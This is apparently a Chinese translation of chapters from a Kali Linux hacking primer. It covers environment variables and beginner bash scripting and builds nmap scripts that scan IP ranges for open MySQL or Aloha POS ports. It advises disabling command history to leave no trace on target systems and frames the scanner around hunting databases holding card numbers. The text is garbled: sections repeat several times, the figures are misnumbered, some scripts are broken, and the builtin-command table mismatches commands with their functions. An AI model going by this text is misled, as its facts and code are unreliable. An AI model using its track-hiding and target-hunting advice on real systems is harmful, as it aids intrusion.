现在你应该看到两个默认登录 shell 选择：bash 或 z shell。突出 **bash**，按下空格键选择，然后点击 **Apply**。关闭 shell 并注销。当你重新登录时，你将进入 bash shell 中。

## 查看和修改环境变量

你可以从任何目录在终端输入 `env` 来查看所有的默认环境变量：

```bash
kali> env
XDG_VTNR=7
SSHAGENT_PID=922
XDG_SESSION_ID=2
XDG_GREETER_DATA_DIR=/var/lib/lightdm/data/root
TERM=xterm-256color
SHELL=/bin/bash
--snip--
USER=kali
--snip--
PATH=/usr/local/sbin:usr/local/bin:sbin:/sbin/bin
--snip--
HOME=/kali
--snip--
```

如所示，变量仅仅是键值对形式的字符串。通常，每对遵循 `KEY=value` 的格式，但具有多个值的变量看起来像这样：`KEY=value1=value2`。在 Linux 的大多数情况下，如果值包含空格，则需要包含在引号中。*环境变量总是大写的*，例如 `HOME`、`PATH`、`SHELL` 等。这里显示的只是系统自带的默认环境变量。用户也可以创建自己的环境变量，正如你将看到的，我们需要不同的命令来将它们包含在输出中。

## 查看所有环境变量

要查看所有环境变量（包括 shell 变量、本地变量和 shell 函数，例如任何用户定义的变量和命令别名），请使用该命令。该命令列出你系统特有的所有环境变量，在大多数情况下，这将给你一个足够长的输出，直到你想在一个屏幕上查看所有内容。你可以使用 `set` 并将其管道到 `more` 命令以更易读的方式逐行请求每个变量，如下：

```bash
kali> set | more
B=/bin/bash
BASHOPTS=checkwins:cmdlist_complete_fullquote:expand_aliases:extglob...
BASH_ALIASES=()
BASH_ARGC={0} "o"
BASH_ARGV=()
--snip--
```

现在变量列表会一行地填满屏幕，然后停止。当你按下 ENTER 时，终端将进入下一行，带你进入下一个变量，你可以通过按下或按 ENTER 来滚动。正如你可能从第 2 章记得的，每当你使用 `more` 命令输出时，都可以输入 q 来退出（或 exit）并返回命令提示符。

## 过滤特定变量

使用 `set` 配合 `more` 可以比单独使用 `set` 查看大块变量名更容易管理，但如果你正在寻找特定的变量，它仍然可能相当麻烦。相反，你可以使用过滤工具 `grep` 来找到你感兴趣的变量。

让我们以变量 `HISTSIZE` 为例。该变量包含你的命令历史文件存储的最大命令数。命令历史文件包含你在此会话中之前在命令提示符中输入的命令，你可以通过向上和向下箭头键检索它们。注意，`HISTSIZE` 并不存储命令本身，只存储要存储的命令数量。

将你的输出管道到 `grep` 以找到 `HISTSIZE` 变量，如下：

```bash
kali> set | grep HISTSIZE
HISTSIZE=1000
```

如你所见，此命令找到了变量 `HISTSIZE` 并显示了它的值。默认情况下，它在你的系统上可能被设置为 1000。这表示终端默认将存储你最后的 1000 条命令。

## 更改会话的变量值

现在让我们看看如何更改变量的值。如所述，`HISTSIZE` 变量包含要存储在历史文件中命令的数量。有时，你不希望你的系统保存过去的命令。也许因为你不想在目标系统上留下任何你的活动痕迹。在这种情况下，你可以将 `HISTSIZE` 设置为 0，这样该变量就只有一个值，你可以按照列表 7-1 所示的熟悉方式分配一个新值。

```bash
kali> HISTSIZE=0
```

列表 7-1：更改 `HISTSIZE` 的值

现在，当你尝试使用向上和向下箭头键召回你的命令时，什么都没有发生，因为系统不再存储它们了。这是隐蔽的，尽管它可能不方便。

## 使变量值的更改持久化

当你更改环境变量时，该更改仅在该特定环境中（在本例中为 bash shell 会话）发生。这意味着当你关闭终端时，你所做的任何更改都将丢失，值将恢复默认值。如果你想让更改永久生效，你需要使用 `export` 命令。该命令将新值从当前环境导出到系统的其余部分，使其在每个环境中都可用，直到再次更改。

## 修改 Shell 提示符

你的 shell 是另一个环境变量，提供了有用信息，例如你作为用户身份以及你正在工作的目录。Kali 的默认 shell 提示符采用以下格式：

```
username@hostname:current_directory$
```

如果你以 root 用户身份，这将变为默认提示符：
```
root@kali:current_directory#
```


你可以通过设置 `PS1` 变量的值来更改默认提示符，它包含显示在提示符中的信息的占位符，包括：

- `\u` 当前用户名
- `\h` 当前工作的主机名

如果你恰好在多个系统上有 shell 或登录了多个账户，这非常有用。通过使用 `\u` 和 `\h` 值，你可以一眼看出是谁以及你的系统是什么。

让我们玩点花并更改终端中的提示符。例如，你可以输入以下：

```bash
kali> PS1="World's Best Hacker: #"
World's Best Hacker: #
```

现在，每当你使用这个终端时，都会提醒你你是顶级黑客。但你打开的任何后续终端仍然具有默认命令提示符，因为 `PS1` 变量对对终端会话有效。如果你真的喜欢这个新命令提示符并想继续使用它，你需要导出它，如下：

```bash
kali> export PS1
```

再趣一点？假设你真的想让终端看起来像 Windows cmd 提示符。在这种情况下，你可以将提示符名称改为 `C:` 并保留 `\w` 让提示符显示你的当前目录，如列表 7-2 所示。

```bash
kali> export PS1='C:\w'
C:/tmp
```

列表 7-2：更改提示符中的目录对于初学者来说特别有用，所以当你更改 `PS1` 变量时，需要考虑这一点。

# 修改你的 PATH

环境变量中最最重要的变量之一就是 `PATH` 变量，它控制了 shell 在系统的何种位置查找你输入的命令，如 `grep`、`ls` 和 `echo`。大多数命令位于 `sbin` 或 `bin` 子目录下，例如 `/usr/local/sbin` 或 `/usr/local/bin`。如果 bash shell 在你变量中的某个目录中没有找到该命令，它将返回错误 `command not found`，即使该命令存在于你未包含的目录中。

你可以通过对 `PATH` 内容使用 `echo` 命令来查看其中存储了哪些目录，因此：

```bash
kali> echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/bin:/sbin:/bin
```

你的终端将在在此列出的目录中搜索所有命令。例如，当你输入 `ls` 时，系统将知道在这些目录中查找它，然后执行它。

每个目录之间用冒号（`:`）隔开。不要忘记在 `PATH` 中添加 `$` 内容符号。当我们在变量前加上 `$` 时，我们是在请求该变量的内容。

# 向 PATH 变量添加内容

你可能已经知道了解 `PATH` 变量中的内容有多重要：如果你下载并安装了一个新工具（例如，新目录 `newhackingtool`），你只有在进入该目录时才能使用该工具的命令，因为该目录不在 `PATH` 变量中。每当你想要使用该工具时，都必须先导航到 `/root/newhackingtool`，如果你经常使用该工具，这会非常不方便。

为了能够在任何目录下使用此工具，你需要将存放此工具的目录添加到 `PATH` 变量中。要将 `newhackingtool` 添加到你的 `PATH` 变量，请输入：

```bash
kali> PATH=$PATH:/root/newhackingtool
```

这会将原始 `PATH` 加上 `/root/newhackingtool` 目录赋值给新的 `PATH` 变量，因此该变量包含了之前的所有内容，加上新的工具目录。

如果你再次检查 `PATH` 变量的内容，你应该能看到目录已追加到 `PATH` 的末尾，如下所示：

```bash
kali> echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/bin:/bin:/root/newhackingtool
```

现在你可以在系统的任何地方执行 `newhackingtool` 程序，而无需导航到它的目录。bash shell 将在列出的所有目录中查找你的新工具。

将经常使用的目录添加到 `PATH` 是一种实用的技术，但要小心不要向 `PATH` 变量中添加多的目录。因为系统必须搜索 `PATH` 中的每一个目录来查找命令，添加大量目录可能会降低终端速度。

# 如何错误添加 PATH 变量

新 Linux 用户常犯的一个错误是按这种方式将新目录（如 `/root/newhackingtool`）直接赋值给 `PATH` 变量：

```bash
kali> PATH=/root/newhackingtool
kali> echo $PATH
/root/newhackingtool
```

如果你使用此命令，你的 `PATH` 变量将只包含 `/root/newhackingtool` 目录，不再包含包含 `/bin`、`/sbin` 等其他存放关键命令的系统二进制文件。当你尝试使用任何系统命令时，将收到 `command not found` 错误，如下所示，除非你在执行命令时先导航到系统二进制文件目录：

```bash
kali> ls
bash: ls: command not found
```

记住，你想向 `PATH` 变量**追加**（append）内容，而不是替换它。如果你不确定，请在修改之前先将变量的内容保存到某处。

# 创建自定义变量

在 Linux 中，你只需为你命名的新变量赋值即可创建自己的自定义用户定义变量。当你进行一些高级的 shell 脚本编写或发现自己厌了反复输入某个长命令时，这可能有用。

语法非常简单：输入变量名、不带空格的赋值符号（`=`）以及要放入变量中的值，如下：

```bash
kali> MYNEWVARIABLE='Hacking is the most valuable skill set in the 21st century'
```

这会将字符串赋值给变量 `MYNEWVARIABLE`。要查看该变量中的值，使用 `echo` 命令和变量名的 `$` 符号，正如我们之前做的那样：

```bash
kali> echo $MYNEWVARIABLE
Hacking is the most valuable skill set in the 21st century
```

就像环境变量一样，用户定义变量必须导出（`export`）才能在新的会话中持续。

如果你想删除这个新变量或任何变量，请使用 `unset` 命令。但在删除系统变量之前务必深思，因为之后系统的运行可能会大不相同。

```bash
kali> unset MYNEWVARIABLE
kali> echo $MYNEWVARIABLE
kali>
```

如你所见，当你输入 `unset MYNEWVARIABLE` 时，你删除了变量及其值。如果你对同一个变量使用 `echo`，Linux 现在将返回一个空行。

## 总结

你可能觉得环境变量很陌生，但它们值得了解。它们控制着你在 Linux 中工作环境的外观、行为和感受。你可以通过更改、导出甚至创建自己的变量来管理这些变量，以量身定制环境。在某些情况下，它们可能对于作为黑客隐藏踪迹有用。

# 练习

- 1. 使用 `more` 命令查看所有的环境变量。
- 2. 使用 `echo` 命令查看 `HOSTNAME` 变量。
- 3. 找到一种将斜杠 (`/`) 更改为反斜杠 (`\`) 方法。
- 4. 创建名为 `MYNEWVARIABLE` 的变量并输入你的名字。
- 5. 使用 `echo` 查看 `MYNEWVARIABLE`。
- 6. 导出 `MYNEWVARIABLE` 使在所有环境中可用。
- 7. 使用 `echo` 查看 `PATH` 的内容。
- 8. 将你的主目录添加到 `PATH` 变量中。

# Bash 快速入门

## BASH 脚本

任何自重的黑客都必须学会脚本。黑客经常需要自动化命令，有时涉及多个工具，这通过他们编写的短程序可以高效实现。在，*shell* 是用户与操作系统之间的接口，允许你操作文件并运行命令、实用程序等。shell 的优势在于你可以直接从计算机执行这些任务，而不是通过抽象（如 GUI），后者允许你根据需要自定义任务。正如第 7 章提到的，Linux 有许多不同的 shell，包括 Korn shell、Z shell 和 Bourne Again shell（通常称为 bash）。

最近，Kali Linux 的开发者已将默认 shell 从 bash 更改为 Z。虽然 Z shell 没有问题（macOS 也发生了变化），由于 Linux 和 Unix 发行版（Red Hat、Ubuntu 等）仍在使用 bash shell，我认为我们也应该。幸运的是，Kali Linux 的开发者可以通过 `kali-tweaks` 命令轻松地切换回 bash。

只需输入此命令

```
kali> kali-tweaks
```


它会打开如图 8-2 所示的图形化界面。

| 主菜单 |  |
| --- | --- |
| Hardening | 为系统提供额外安全性 |
| Metapackages | 为特定需求安装特定的工具子集 |
| Network Repositories | 配置 APT 的网络仓库 |
| Shell & Prompt | 配置 shell 和命令提示符 |
| Virtualization | 虚拟机的附加配置 |
| <Select> | <Quit> |

**图 8-1：Kali 主菜单***

使用下方向键选择第四项 **Shell & Prompt**，并按回车。这将打开图 8-2 所示的屏幕。

要成为一名*精英*黑客，你还需要使用广泛使用的脚本语言编写脚本的能力，例如 Ruby（Metasploit 攻击是用 Ruby 编写的）、Python（许多攻击工具是 Python 脚本）或 Perl（Perl 是最好的文本语言）。我在第 17 章对 Python 脚本进行了简要介绍。

在本章中，我们将从构建几个简单的 bash 脚本开始，最终构建一个能够在 IP 地址范围内寻找攻击目标的脚本。



图 8-2：Shell & Prompt 设置

向下滚动到第二个选项 **Default Login Shell**（默认登录 shell），并按回车键。这将打开图 8-3 所示的屏幕。



图 8-3：选择 bash shell

使用空格键选择 Bash，滚动到 **Apply**（应用）并按回车键。系统会提示你输入密码，输入后，系统将显示图 8-4 所示的消息。

> > 来自 Kali 开发者的消息：
> 你的 shell 已更改！
> 请注销并重新登录以使更改生效。

> > 按回车继续...

图 8-4：Kali 告知登录 shell 已经更改。

现在，按回车键，注销并重新登录，你的 shell 将被更改为 Linux/Unix 世界中最常用的 shell——`bash`！

`bash` 可以运行你通常命令行可以运行的任何系统命令、实用程序或应用程序，但它包含了一些内置命令。本章后面的表格 8-1 提供了 `bash` shell 内部一些有用命令的参考。

在前面的章节中，你使用了 `cd`、`pwd`、`set` 和 `umask` 命令。在本章中，你将使用另外两个命令：第 7 章中使用的 `echo` 命令用于向屏幕显示消息，以及 `read` 命令读取数据并将其存储在某处。仅学习这两个命令就能让你构建出一个简单但强大的工具。

你需要一个文本编辑器来创建脚本。文本编辑器是一个可以编辑纯文本、未格式文本的程序，类似于 Windows 中的 Notepad 或 macOS 中的 TextEdit。你可以使用任何你喜欢的 Linux 文本编辑器。黑客常用的选择包括 `vi`、`emacs`、`kate` 等。我在书中将像之前的章节一样使用 `mousepad`。使用不同的编辑器对你的脚本或功能没有产生影响。

## 第一个脚本：“Hello, Hackers-Arise!”

对于你的第一个脚本，我们将从一个简单的程序开始，该程序会在屏幕上返回“Hello, Hackers-Arise!”的消息。打开你的文本编辑器，让我们开始吧。

要开始，你需要告诉操作系统你想要为脚本使用哪个解释器。要做到这一点，输入一个 shebang，它是井号（`#`）和感叹号（`!`）的组合，如下所示：

```
#!/
```

然后你在 shebang (`#`) 后面加上 `/bin/bash`，表示你想让操作系统使用 `bash` 解释器。正如你在后面的章节中看到的，你也可以使用 shebang 使用其他解释器，例如 Perl 或 Python。在这里，你想使用 `bash` 解释器，所以如下：

```bash
#! /bin/bash
```

接下来，输入 `echo` 命令，它告诉系统简单地向你的显示器重复（或回显）任何命令的内容。

在这种情况下，我们希望系统回显“Hello, Hackers-Arise!”，正如列表 8-1 所示。注意，我们想要回显的文本或消息必须放在双引号中。

```bash
#! /bin/bash

# 这是我的第一个 bash 脚本。祝我好运吧。

echo "Hello, Hackers-Arise!"
```

列表 8-1：你的 "Hello, Hackers-Arise!" 脚本

在这里，你还看到一行前面有一个井号 (`#`)。这是一个注释，它是写给你自己或任何其他阅读代码的人的笔记，用来解释你在脚本中做什么。程序员在每种编程语言中都会使用注释。解释器不会读取或执行这些注释，所以你不需要担心弄乱你的代码。它们只对人类可见。如果一行以 `#` 字符开头，`bash` shell 就知道该行被忽略了。

现在，将其保存为 `HelloHackArise` 不带扩展名），并退出你的文本编辑器。

### 设置执行权限

默认情况下，新创建的 `bash` 脚本即使对于你这个所有者也是不可执行的。让我们通过 `cd` 进入目录然后输入 `ls -l`，在命令行中查看我们新文件的权限。它看起来像这样：

```bash
kali| ls -l

--snip--

--rw-r--r-- 1 kali 90 Oct 22 14:32 HelloHackArise

--snip--
```

如你所示，我们的新文件具有 `rw-r--r--` (644) 权限。正如你在第 5 章中学到的，这意味着该文件的所有者只有读 (`r`) 和写 (`w`) 权限，但没有执行 (`x`) 权限。组和其他所有用户只有读取权限。我们需要给自己权限以运行此脚本。我们使用 `chmod` 命令更改权限，正如你在第 5 章中看到的那样。要给所有者、组和所有人执行权限，请输入：

```bash
kali chmod 755 HelloHackArise
```

现在当我们对文件进行列出时（如下），我们可以看到我们拥有执行权限：

```bash
kali| ls -l

--snip--

--rwx-r-x 1 kali 42 Oct 22 14:32 HelloHackArise

--snip--
```

### 运行脚本

要运行我们的脚本，如下所示：

```bash
kali ./HelloHackArise
```


列表 8-1：你的 "Hello, Hackers-Arise!" 脚本

在这里，你还看到一行前面有一个井号 (`#`)。这是一个注释，它是写给你自己或任何其他阅读代码的人的笔记，用来解释你在脚本中做什么。程序员在每种编程语言中都会使用注释。解释器不会读取或执行这些注释，所以你不需要担心弄乱你的代码。它们只对人类可见。如果一行以 `#` 字符开头，bash shell 就知道该行被忽略了。

现在，将其保存为 `HelloHackArise` 不带扩展名），并退出你的文本编辑器。

### 设置执行权限

默认情况下，新创建的 bash 脚本即使对于你这个所有者也是不可执行的。让我们通过 `cd` 进入目录然后输入 `ls -l`，在命令行中查看我们新文件的权限。它看起来像这样：

```bash
kali| ls -l

--snip--

--rw-r--r-- 1 kali 90 Oct 22 14:32 HelloHackArise

--snip--
```

如你所示，我们的新文件具有 `rw-r--r--` (644) 权限。正如你在第 5 章中学到的，这意味着该文件的所有者只有读 (`r`) 和写 (`w`) 权限，但没有执行 (`x`) 权限。组和其他所有用户只有读取权限。我们需要给自己权限以运行此脚本。我们使用 `chmod` 命令更改权限，正如你在第 5 章中看到的那样。要给所有者、组和所有人执行权限，请输入：

```bash
kali chmod 755 HelloHackArise
```

现在当我们对文件进行列出时（如下），我们可以看到我们拥有执行权限：

```bash
kali| ls -l

--snip--

--rwx-r-x 1 kali 42 Oct 22 14:32 HelloHackArise

--snip--
```

### 运行脚本

要运行我们的脚本，如下所示：

```bash
kali ./HelloHackArise
```

在这种情况下，我们希望系统回显“Hello, Hackers-Arise!”，正如列表 8-1 所示。注意，我们想要回显的文本或消息必须放在双引号中。

现在，按回车键，注销并重新登录，你的 shell 将被更改为 Linux/Unix 世界中最常用的 shell——bash！

bash 可以运行你通常命令行可以运行的任何系统命令、实用程序或应用程序，但它也包含了一些内置命令。本章后面的表格 8-1 提供了 bash shell 内部一些有用命令的参考。

前面的章节中，你使用了 `cd`、`pwd`、`set` 和 `umask` 命令。在本章中，你将使用另外两个命令：第 7 章中使用的 `echo` 命令用于向屏幕显示消息，以及 `read` 命令读取数据并将其存储在某处。仅学习这两个命令就能让你构建出一个简单但强大的工具。

你需要一个文本编辑器来创建脚本。文本编辑器是一个可以编辑纯文本、未格式文本的程序，类似于 Windows 中的 Notepad 或 macOS 中的 TextEdit。你可以使用任何你喜欢的 Linux 文本编辑器。黑客常用的选择包括 `vi`、`emacs`、`kate` 等。我在书中将像之前的章节一样使用 `mousepad`。使用不同的编辑器对你的脚本或功能没有产生影响。

## 第一个脚本：“Hello, Hackers-Arise!”

对于你的第一个脚本，我们将从一个简单的程序开始，该程序会在屏幕上返回“Hello, Hackers-Arise!”的消息。打开你的文本编辑器，让我们开始吧。

要开始，你需要告诉操作系统你想要为脚本使用哪个解释器。要做到这一点，输入一个 shebang，它是井号 (`#`) 和感叹号 (`!`) 的组合，如下所示：

```
#!/
```

然后你你在 shebang (`#`) 后面加上 `/bin/bash`，表示你想让操作系统使用 bash 解释器。正如你在后面的章节中看到的，你也可以使用 shebang 使用其他解释器，例如 Perl 或 Python。在这里，你想使用 bash 解释器，所以如下：

```bash
#! /bin/bash
```

接下来，输入 `echo` 命令，它告诉系统简单地向你的显示器重复（或回显）任何命令的内容。

在这种情况下，我们希望系统回显“Hello, Hackers-Arise!”，正如列表 8-1 所示。注意，我们想要回显的文本或消息必须放在双引号中。

```bash
#! /bin/bash

# 这是我的第一个 bash 脚本。祝我好运吧。

echo "Hello, Hackers-Arise!"
```

列表 8-1：你的 "Hello, Hackers-Arise!" 脚本

在这里，你还看到一行前面有一个井号 (`#`)。这是一个注释，它是写给你自己或任何其他阅读代码的人的笔记，用来解释你在脚本中做什么。程序员在每种编程语言中都会使用注释。解释器不会读取或执行这些注释，所以你不需要担心弄乱你的代码。它们只对人类可见。如果一行以 `#` 字符开头，bash shell 就知道该行被忽略了。

现在，将其保存为 `HelloHackArise` 不带扩展名），并退出你的文本编辑器。

### 设置执行权限

默认情况下，新创建的 bash 脚本即使对于你这个所有者也是不可执行的。让我们通过 `cd` 进入目录然后输入 `ls -l`，在命令行中查看我们新文件的权限。它看起来像这样：

```bash
kali| ls -l

--snip--

--rw-r--r-- 1 kali 90 Oct 22 14:32 HelloHackArise

--snip--
```

如你所示，我们的新文件具有 `rw-r--r--` (644) 权限。正如你在第 5 章中学到的，这意味着该文件的所有者只有读 (`r`) 和写 (`w`) 权限，但没有执行 (`x`) 权限。组和其他所有用户只有读取权限。我们需要给自己权限以运行此脚本。我们使用 `chmod` 命令更改权限，正如你在第 5 章中看到的那样。要给所有者、组和所有人执行权限，请输入：

```bash
kali chmod 755 HelloHackArise
```

现在当我们对文件进行列出时（如下），我们可以看到我们拥有执行权限：

```bash
kali| ls -l

--snip--

--rwx-r-x 1 kali 42 Oct 22 14:32 HelloHackArise

--snip--
```

### 运行脚本

要运行我们的脚本，如下所示：

```bash
kali ./HelloHackArise
```

在这种情况下，我们希望系统回显“Hello, Hackers-Arise!”，正如列表 8-1 所示。注意，我们想要回显的文本或消息必须放在双引号中。

现在，按回车键，注销并重新登录，你的 shell 将被更改为 Linux/Unix 世界中最常用的 shell——bash！

bash 可以运行你通常命令行可以运行的任何系统命令、实用程序或应用程序，但它也包含了一些内置命令。本章后面的表格 8-1 提供了 bash shell 内部一些有用命令的参考。

前面的章节中，你使用了 `cd`、`pwd`、`set` 和 `umask` 命令。在本章中，你将使用另外两个命令：第 7 章中使用的 `echo` 命令用于向屏幕显示消息，以及 `read` 命令读取数据并将其存储在某处。仅学习这两个命令就能让你构建出一个简单但强大的工具。

### 使用变量添加功能

变量是一个内存区域，可以存放某些东西。要创建一个变量，使用等号 (`=`) 赋值值。例如：

```bash
name="Kali"
```

现在，要使用变量，用美元符号 (`$`) 前缀 name。

```bash
echo $name
```

在这种情况下，我们希望系统回显“Hello, Hackers-Arise!”，正如列表 8-1 所示。注意，我们想要回显的文本或消息必须放在双引号中。

变量也是可变的。要更改它的值，我们可以使用 `read` 命令将用户输入存储在变量中。例如：

```bash
echo "What is your name?"
read name
echo "Hello, $name!"
```

### 使用变量添加功能

现在我们将创建一个检查文件是否存在的脚本。

```bash
#! /bin/bash

echo "Enter the filename to check:"
read filename

if [ -f $filename ]; then
    echo "The file exists!"
else
    echo "The file does not exist."
fi
```

当我们运行这个脚本时，它会提示文件名：

```
> Enter the filename to check:
HelloHackArise
The file exists!
```

如果我们输入一个不存在的文件：
```bash


> Enter the filename to check:

nonexistent.txt

The file does not exist.

`if` 语句用于在我们的脚本中做决策。如果条件为真，则 `then` 下的代码将被执行。如果它为假，则 `else` 下的代码将被执行。`-f` 标志是一个检查文件存在的测试。

### 使用参数

我们也可以将信息作为参数传递给脚本。这些被称为位置参数，可以使用特殊变量访问：

- `$0`: 脚本名称
- `$1`: 第一个参数
- `$2`: 第二个参数
- `$#`: 参数的数量

让我们使用这些变量的脚本：

```bash
#! /bin/bash

echo "Script name: $0"

echo "First argument: $1"

echo "Second argument: $2"

echo "Number of arguments: $#"
```

如果我们带两个参数运行这个脚本：

```bash
kali ./myscript.sh Hello World

Script name: ./myscript.sh

First argument: Hello

Second argument: World

Number of arguments: 2
```

### 使用循环

最后，让我们看看循环，它允许我们多次执行操作。

```bash
#! /bin/bash

for i in {1..5}; do
    echo "Iteration $i"
done
```

这个脚本将输出：

```
Iteration 1
Iteration 2
Iteration 3
Iteration 4
Iteration 5
```

## 你的第一个黑客脚本：扫描开放端口

现在你已经有了基础脚本技能，让我们转向具有真实世界黑客应用的、稍微高级的脚本。在继续之前，你需要熟悉一个简单而重要的工具 `nmap`，它是默认安装在 Kali 中的。你可能听过这个名字；并且 `nmap` 用于探测系统以查看它是否连接到网络，并发现哪些端口是开放的。从发现的开放端口，你可以推断出目标系统上运行着哪些服务。对于任何黑客或系统管理员来说，这都是一项关键技能。

在最简单的形式下，运行 `nmap` 扫描的语法如下：

```bash
nmap <type of scan> <target IP> <optionally, target port>
```

并不难。最简单且最可靠的 `nmap` 扫描是 TCP 连接扫描，在 `nmap` 中由 `-sT` 选项指定。因此，如果你想对 IP 地址 `192.168.181.1` 进行 TCP 扫描，你将输入以下内容：

```
nmap -sT 192.168.181.1
```

更进一步，如果你想对地址 `192.168.181.1` 执行 TCP 扫描，查看端口 `3306`（MySQL 和 MariaDB 的默认端口）是否开放，你可以输入这个：

```
nmap -sT 192.168.181.1 -p 3306
```

在这里，`-p` 指定了你想要扫描的端口。现在就在你的 Kali 系统上尝试一下吧。

# 我们的任务

一个名为 Max Butler 的黑客（在黑客世界也称为 Max Vision）于 2021 年从美国联邦监狱释放。。 是一种“灰度黑客”。白天和晚上，他是硅谷的一名 IT 安全专业人员，同时在黑市场上盗取并出售信用卡号。他曾运营过全球最大的信用卡黑客网站——CardsMarket。Max 在服刑 13 年期间的同时，还协助匹兹堡的计算机应急响应小组（CERT）防御黑客。

在 Max 被捕的几年年前，他发现许多餐厅使用的 Aloha 点销售（POS）系统内置了一个技术支持后门。在这种情况下，该后门允许技术支持人员协助其客户。Aloha 技术支持可以通过端口 `5505` 访问终端用户系统，以便在用户求助时提供帮助。Max 意识到，如果他发现一个连接到互联网并带有 Aloha POS 系统，他就可以通过端口 `5505` 以 `sysadmin`（全能的系统管理员）权限访问该系统。Max 能够管理许多此类系统并盗取数千个信用卡号。

最终，Max 想要找到每一个开放了 `5505` 端口的系统，这样他就可以将信用卡号从数千增加到数百万。Max 决定编写一个脚本，扫描数百万 IP 地址以寻找开放了 `5505` 端口的系统。当然，大多数系统并没有开放 `5505` 端口，如果它们开放了，就就像运行着注定失败的 Aloha POS。他可以在白天工作时运行这个脚本，晚上黑入那些被识别为开放了 `5505` 端口的系统。

我们的任务是编写一个与 Max 的脚本几乎相同的脚本，但要像 Max 那样扫描 `5505` 端口，或者扫描连接到无处不在的在线数据库 MySQL 或 MariaDB 的系统。MySQL 和 MariaDB 是数百万网站背后的开源数据库；我们将在第 12 章中使用 MySQL。默认情况下，MySQL 使用端口 `3306`。数据库是每个寻求黑客寻求寻找的“金羊毛”，因为它们通常包含信用卡号和个人身份信息（PII），这些信息在黑市场上非常有价值。

# 一个简单的扫描器

在我们编写扫描整个互联网公网 IP 的脚本之前，让我们先完成一个要得得的任务。与其扫描全球，不如先写一个扫描局域网内 `3306` 端口的脚本，看看我们的脚本是否有效。如果有效，我们可以轻松地编辑它来完成更大的任务。
在你的编辑器中，输入列表 8-3 所示脚本。

```bash
#! /bin/bash

# 此脚本用于查找安装了 MySQL 的主机

nmap -sS 192.168.181.0/24 -p 3306 /dev/null -oG MySQLscan

cat MySQLscan | grep open > MySQLscan
```

列表 8-3：简化的扫描器脚本

我们从开头行（shebang）和要使用的解释器开始。接着用一条注释来解释脚本的作用。
现在，让我们使用 `nmap` 命令对我们的局域网（LAN）请求 TCP 扫描，寻找端口 `3306`（注意，你的 IP 地址可能不同；在终端中，在 Linux 上使用 `ifconfig` 或在 Windows 上使用 `ipconfig` 来确定你的 IP 地址）。重定向符号 `>` 告诉标准的 `nmap` 输出（通常显示在屏幕上）转到 `/dev/null`，`/dev/null` 只是一个发送输出使其消失的地方。我们在本地机器上执行此操作，影响不大，但如果你远程使用该脚本，你将不想隐藏 `nmap` 的输出。然后，我们将扫描结果以可 grep 的格式发送到名为 `MySQLscan` 的文件中，以便 `grep` 可以工作。下一行显示我们存储输出的 `MySQLscan` 文件，然后将其管道输出以过滤出包含关键词的行。然后我们将这些行放入名为 `MySQL2` 的文件中。最后，我们显示 `MySQL2` 文件的内容。这个最终文件应该只包含来自开启 `3306` 端口主机的 `nmap` 输出行。将此文件保存为 `mysqlscanner.sh`，并使用 `chmod 755` 赋予其执行权限。执行脚本，例如：

```
kali> ./mysqlscanner.sh

Host: 192.168.181 Ports:3306/tcp
```
如输出所示，此脚本能够识别你局域网中运行有 MySQL 安装的 IP 地址。

# 对 MySQL 扫描器的改进

现在，我们想要调整此脚本，使其不仅适用于你的局域网。这个脚本将更容易适用于更广泛的网络。与其说像 Max 那样扫描 `5505` 端口，不如扫描连接到无处不在的在线数据库 MySQL 或 MariaDB 的系统。MySQL 和 MariaDB 是数百万网站背后的开源数据库；我们将在第 12 章中使用 MySQL。默认情况下，MySQL 使用端口 `3306`。数据库是每个黑客寻求寻找的“金羊毛”，因为它们通常包含信用卡号和个人身份信息（PII），这些信息在黑市场上非常有价值。现在我们想要调整此脚本，使其不仅适用于你的局域网。如果脚本可以提示用户并扫描范围，它将更容易使用。与其说像 Max 那样扫描 `5505` 端口，不如通过提示用户来输入，，让脚本更灵活。

# 在脚本中添加提示和变量

在你的编辑器中，输入列表 8-4 所示的脚本。

```bash
#! /bin/bash

echo "起始 IP 地址："
read FirstIP

echo "IP 地址的最后一段："
read LastetIP

echo "要扫描的端口号："
read port

nmap -sS $FirstIP-$LastetIP -p $port /dev/null -oG MySQLScan

cat MySQLScan | grep open > MySQL2
```


- 列表 8-4：你的端口扫描器

我们要做的第一件事是用 IP 地址范围替换指定的子网。我们将创建一个名为 `FirstIP` 的变量，创建一个名为 `LastetIP` 的第二个变量，以及一个用于端口的 `port` 变量（变量名无关紧要，但最佳实践是使用有助于记住变量包含内容的名称）。我们还需要提示用户这些值。我们可以通过使用 `echo` 命令（正如我们在 8-1 中使用的那样）在屏幕上显示“起始 IP 地址：”，让用户输入。

随后，我们将输出以可 grep 的格式发送到 `MySQLScan`。`cat MySQLScan | grep open > MySQL2`。

最后，我们显示 `MySQL2` 的内容。如果一切运行符合预期，此脚本将扫描从第一个输入地址到最后一个输入地址，搜索端口并报告开启了指定端口的 IP 地址。将你的脚本文件保存为 `mysqlscannerAdvanced`，记得赋予其执行权限。

### 运行扫描器

现在我们可以根据要扫描的 IP 地址范围和端口运行我们的扫描脚本，而无需编辑脚本。

```
kali> ./mysqlscannerAdvanced.sh

起始 IP 地址：

192.168.181.0

IP 地址的最后一段：

255

要扫描的端口号：

3306

Host: 192.168.181.254 () Ports:3306/tcp/mysql
```

## 常用 Bash 内置命令

如承诺所示，表 8-1 提供了 bash 内置的实用命令列表。

**表 8-1:** Bash 内置命令

| 命令 | 功能 |
| --- | --- |
| :? | 返回 0 或真 |
| [[ | 执行 shell 脚本 |
| bg | 执行条件测试 |
| break | 将作业放入后台 |
| cd | 切换目录 |
| continue | 继续当前循环 |
| echo | 显示命令参数 |
| eval | 评估随后的表达式 |
